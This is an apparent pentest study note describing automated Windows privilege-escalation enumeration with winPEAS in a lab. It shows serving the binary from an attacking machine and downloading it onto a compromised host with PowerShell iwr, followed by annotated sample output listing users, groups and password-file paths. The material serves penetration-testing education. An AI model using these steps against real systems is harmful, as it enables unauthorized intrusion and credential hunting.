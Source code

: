 
# Automated Enumeration
In actual pen-tests, we should automated tools for enumeration since we are time-boxed. A good choice for enumerating Windows, especially as it relates to privesc, is [_winPEAS_](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).
## WinPEAS
To use winPEAS, we first need to get the binary onto our target box.
### Infiltrating WinPEAS
First, we need to install the [`peass`](https://www.kali.org/tools/peass-ng/)package (on our Kali machine). Then we can download the 64-bit binary for WinPEAS onto our attacking machine, then we can use [python](../../../coding/languages/python/python.md) to serve it via an [HTTP](../../../www/HTTP.md) server:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Once that's up and listening for connections, we can user [powershell](../../../computers/windows/powershell.md) to access it from the target box we compromised. After starting a PS session, we can use `iwr` with the `-uri` flag set to the address of our python web server. `iwr` is a cmdlet:
```powershell
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe
```
If everything works, this will send an HTTP `GET` request to our python server for the winPEAS binary and then download it into our working directory.
### Running WinPEAS
Once we run winPEAS it will take a few minutes to finish since it's doing all of the enumeration for us. The output will be color-coded:
- Red: special privilege over an object or a misconfiguration
- Green: protection is enabled
- Cyan: active users
- Blue: disabled users
- Light Yellow: links

To run winPEAS, the command is `.\winPEAS.exe`. Here is some output for the example client `CLIENTWK220` like we've been using throughout this section (see [sensitive-files](sensitive-files.md), [enumeration](enumeration.md), and [powershell-logging](powershell-logging.md)). 
#### System Info
The first part of the output includes basic information about the system:
```powershell
...
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits    OS Name: Microsoft Windows 11 Pro
    OS Version: 10.0.22621 N/A Build 22621
    System Type: x64-based PC
    Hostname: clientwk220
    ProductName: Windows 10 Pro
    EditionID: Professional
    ReleaseId: 2009
    BuildBranch: ni_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 9/2/2024 11:03:33 PM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: 
...
```
Note that winPEAS has the OS version as Windows 10 Pro instead of Windows 11 Pro like we confirmed earlier. This is a good example of why *you should never fully trust output from an automated tool*.
#### Security Protections
The next section of output includes security protections in place like [NTLM](../../../networking/protocols/NTLM.md) settings. Here we can see info related to [PowerShell Transcription](powershell-logging.md#PowerShell%20Transcription) files:
```powershell
...    
����������͹ PS default transcripts history
� Read the PS history inside these files (if any)
...
```
Note that again, winPEAS got it wrong *since we know there is a transcript file* in `C:\Users\Public`
#### Users & Groups
The next section pertains to users on the system including the groups they're members of:
```powershell
����������͹ Users
...    
Current user: dave
Current groups: Domain Users, Everyone, helpdesk, Builtin\Remote Desktop Users, Users, Batch, Console Logon, Authenticated Users, This Organization, Local account, Local, NTLM Authentication

   CLIENTWK220\Administrator(Disabled): Built-in account for administering the computer/domain
        |->Groups: Administrators
        |->Password: CanChange-NotExpi-Req

    CLIENTWK220\BackupAdmin
        |->Groups: BackupUsers,Administrators,Users
        |->Password: CanChange-NotExpi-Req

    CLIENTWK220\dave: dave
        |->Groups: helpdesk,Remote Desktop Users,Users
        |->Password: CanChange-NotExpi-Req

    CLIENTWK220\daveadmin
        |->Groups: adminteam,Administrators,Remote Management Users,Users
        |->Password: CanChange-NotExpi-Req
...

    CLIENTWK220\steve
        |->Groups: helpdesk,Remote Desktop Users,Remote Management Users,Users
        |->Password: CanChange-NotExpi-Req
...
```
#### Processes, Services, Tasks, Network, Applications
The next section includes info on currently running processes, scheduled tasks, services, network information, and applications.
#### Password Files
The last section includes any discovered password and password-related files found in user home directories:
```powershell
...    
����������͹ Looking for possible password files in users homes
�  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml
    C:\Users\dave\AppData\Local\Packages\MicrosoftWindows.Client.WebExperience_cw5n1h2txyewy\LocalState\EBWebView\ZxcvbnData\3.0.0.0\passwords.txt
    C:\Users\dave\AppData\Local\Packages\MicrosoftTeams_8wekyb3d8bbwe\LocalCache\Microsoft\MSTeams\EBWebView\ZxcvbnData\3.0.0.0\passwords.txt
...
```
Again, the output doesn't include `asdf.txt` which we found in `dave`'s Desktop folder before.


> [!Resources]
> - [_winPEAS_](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
> - [**peass**](https://www.kali.org/tools/peass-ng/) package